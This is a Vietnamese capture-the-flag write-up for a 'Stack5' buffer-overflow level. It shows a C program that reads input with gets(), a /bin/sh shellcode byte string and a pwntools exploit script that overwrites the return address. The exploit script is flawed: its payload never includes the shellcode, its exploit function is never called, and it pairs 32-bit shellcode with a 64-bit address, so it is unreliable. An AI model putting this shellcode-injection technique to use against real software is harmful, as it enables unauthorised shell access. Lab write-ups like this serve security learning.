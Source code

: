```
flag{u hereeee why u have to find ???}
```


## Stack5

(((LevelUp++)++)++) !
Mình phải up như thế vì mình bị dừng ở phần này khá lâu ! Mình không biết tại sao mình lại bị dừng lại ở bài này lâu đến thế ! Chắc tại vì shellcode 😄

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
Code C này rất đơn thuần, chỉ có buffer và gets 🦀 ! Điều đó có nghĩa là chúng ta phải tìm ra 1 hướng mới! 

Như là Shellcode thần chưởng [1- Nhập môn],[2- Luyện Asm]
Các bạn hãy lên mạng search đọc nhé !

Sau cùng sau khi tìm hiểu thì flow hoạt động của shellcode như sau: Bạn cần ghi shellcode vào 1 địa chỉ nào đó sau đó return về đúng địa chỉ của shellcode thì đoạn shellcode đó sẽ được thực thi :vvvv

Nhìn về bài này có nghĩa là phải gọi 1 lệnh trùm ở system đó là *"/bin/sh"* thay vì ngồi code ASM lệnh này thì chúng ta có thể lên [Shellstorm](http://shell-storm.org/shellcode/) để chọn đoạn shellcode tương ứng với hệ điều hành mà mình đang dùng !

từ đó chúng ta có shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" 

Từ đó viết ra 1 file exploit như sau : 

```
from pwn import *

BIN = "./stack5"
DEBUG = 1

buf = 0x7fffffffde10
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

#\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

def exploit():

  payload = b"A"*(0x48-len(shellcode)) + p64(buf)
  
  _breakpoint = """
      b *0x0000000000400522
  """
  gdb.attach(io, _breakpoint)
  io.sendline(payload)
  io.recv()
  io.interactive()


io = process(BIN)
```